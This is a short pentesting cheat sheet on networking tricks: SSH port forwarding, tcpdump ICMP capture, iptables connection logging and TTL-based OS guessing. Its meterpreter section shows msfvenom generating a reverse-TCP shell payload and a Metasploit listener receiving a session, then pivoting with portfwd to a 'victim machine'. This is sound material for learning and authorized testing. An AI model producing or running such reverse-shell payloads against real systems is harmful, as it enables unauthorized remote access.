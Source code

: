 ```yaml
---
title: Networks tricks
description: Portforwarding, capture, firewall rules, ...
---
```


# Networks tricks

## Port forwarding

The `example.com` machine has a web server running on port 8000 internally (not exposed to the internet). With the following command you can now access the web server from `http://localhost:4444`.

### Using SSH

```bash
ssh -L 4444:127.0.0.1:8000 user@example.com
```

### Using metasploit (meterpreter)

- Generate the exploit with `msfvenom`.

```bash
$ msfvenom -p 'linux/x64/meterpreter_reverse_tcp' LHOST=10.132.0.2 LPORT=9001 -f elf > exploit.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037272 bytes
Final size of elf file: 1037272 bytes

$ file exploit.bin
exploit.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, with debug_info, not stripped
```

- Setup listener

```bash
$ msfconsole
...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST ens4
LHOST => 10.132.0.2
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.132.0.2:9001
[*] Meterpreter session 1 opened (10.132.0.2:9001 -> 10.154.0.2:45462 ) at 2021-10-19 19:27:31 +0000

meterpreter >
```

- Do port forwarding

```
meterpreter > portfwd add -l 4444 -p 8000 -r 127.0.0.1
[*] Local TCP relay created: :4444 <-> 127.0.0.1:8000
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local           Remote        Direction
   -----  -----           ------        ---------
   1      127.0.0.1:8000  0.0.0.0:4444  Forward

1 total active port forwards.

meterpreter > portfwd delete -l 4444 -p 8000 -r 127.0.0.1
[*] Successfully stopped TCP relay on 0.0.0.0:4444
```

`-l` : Port on your local machine (attacker machine).
`-p` : Port on the remote machine (victim machine).
`-r` : Target host.

### Using chisel

- [Chisel](https://github.com/jpillora/chisel)

## Ping

Use `tcpdump` to listen for ping request and reply.

```bash
$ sudo tcpdump icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on wlp3s0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
18:53:25.737055 IP 192.168.117.150 > 192.168.117.58: ICMP echo request, id 1, seq 1, length 64
18:53:25.737224 IP 192.168.117.58 > 192.168.117.150: ICMP echo reply, id 1, seq 1, length 64
```

## TCP connections

Add `iptables` rule that listen for new TCP connections.

```bash
$ sudo iptables -A INPUT -p tcp -m state --state NEW -j LOG --log-prefix "New TCP connection: " -i wlp3s0
```

!!! info
    To remove the rule from `iptables`, execute the same commands but replace the `-A` with `-D`.

View the log :

```bash
$ journalctl -k --grep='New TCP connection: '
Sep 26 19:04:24 arch kernel: [NEW TCP connection] IN=wlp3s0 OUT= MAC=XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX SRC=192.168.117.150 DST=192.168.117.58 LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=25957
...
```

## OS Information gathering
For Linux machines the `ttl` is often close to `64`, however for Windows machines the `ttl` is close to `128`.

```bash
$ ping localhost
PING localhost(localhost (::1)) 56 data bytes
64 bytes from localhost (::1): icmp_seq=1 ttl=64 time=0.058 ms
64 bytes from localhost (::1): icmp_seq=2 ttl=64 time=0.131 ms
64 bytes from localhost (::1): icmp_seq=3 ttl=64 time=0.078 ms
^C
--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2019ms
rtt min/avg/max/mdev = 0.058/0.089/0.131/0.030 ms
```